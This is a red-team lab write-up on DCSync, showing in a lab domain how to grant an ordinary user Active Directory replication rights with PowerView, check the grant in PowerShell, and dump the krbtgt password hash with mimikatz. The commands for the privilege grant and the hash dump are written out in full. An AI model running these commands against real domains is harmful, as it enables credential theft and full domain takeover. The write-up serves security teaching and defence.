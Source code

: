 # DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354%28v=vs.85%29.aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355%28v=vs.85%29.aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663%28v=vs.85%29.aspx)” extended right \(this one isn’t always needed but we can add it just in case :\)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-18-32.png)

Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the above command and also proves that spotless does not belong to any privileged group:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-21-02.png)

However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-21-09.png)

Let's grab the SID of the user spotless with `whoami /all`:

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-28-18.png)

Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-27-54.png)

Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-15-11-36.png)

See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
lsadump::dcsync /user:krbtgt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-09-14-34-44%20%281%29.png)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/" %}

{% embed url="https://medium.com/@jsecurity101/syncing-into-the-shadows-bbd656dd14c8" %}

